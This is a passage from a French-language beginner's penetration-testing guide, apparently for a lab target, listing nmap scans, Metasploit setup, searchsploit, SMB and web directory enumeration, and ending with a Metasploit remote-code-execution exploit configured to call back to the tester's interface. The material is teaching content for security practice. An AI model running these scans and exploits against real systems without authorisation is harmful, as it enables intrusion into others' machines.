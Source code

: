 **En clair, pour un débutant** : C'est votre première étape pour cartographier le réseau et savoir quelles machines sont allumées, comme allumer la lumière dans une pièce sombre.

2. **Scan de ports détaillé**
```bash
sudo nmap -sS -sV -sC -p- -oA scan_complet 10.10.10.15
```
Cette commande effectue un scan complet de tous les ports avec détection de version et scripts par défaut.

**En clair, pour un débutant** : Cette commande examine en profondeur une machine pour identifier tous ses points d'entrée potentiels et les services qui y tournent.

3. **Intégration Nmap dans Metasploit**
```bash
sudo msfdb init && sudo msfconsole -q
msf > db_nmap -sS -sV 10.10.10.15
```
Cette séquence initialise la base de données Metasploit et y importe directement les résultats de Nmap.

**En clair, pour un débutant** : Vous préparez votre "arsenal" d'attaque en stockant les informations de reconnaissance dans une base de données facilement exploitable.

4. **Recherche d'exploits**
```bash
searchsploit apache 2.4.49
```
Cette commande recherche des exploits connus pour une version spécifique d'un service.

**En clair, pour un débutant** : Vous consultez un catalogue de failles connues pour voir si le service que vous avez identifié a des vulnérabilités documentées.

5. **Énumération SMB rapide**
```bash
enum4linux-ng -A 10.10.10.15
```
Cette commande effectue une énumération complète des services SMB/Windows.

**En clair, pour un débutant** : Vous explorez les partages de fichiers Windows et les informations sur les utilisateurs, souvent une mine d'or pour progresser dans un réseau.

6. **Scan de répertoires web**
```bash
gobuster dir -u http://10.10.10.15 -w /usr/share/wordlists/dirb/common.txt
```
Cette commande recherche des répertoires et fichiers cachés sur un serveur web.

**En clair, pour un débutant** : Vous cherchez des pages web non référencées qui pourraient contenir des informations sensibles ou des vulnérabilités.

7. **Exploitation avec Metasploit**
```bash
msf > use exploit/windows/http/apache_tika_rce
msf > set RHOSTS 10.10.10.15
msf > set LHOST tun0
msf > exploit
```
Cette séquence configure et lance un exploit via Metasploit.
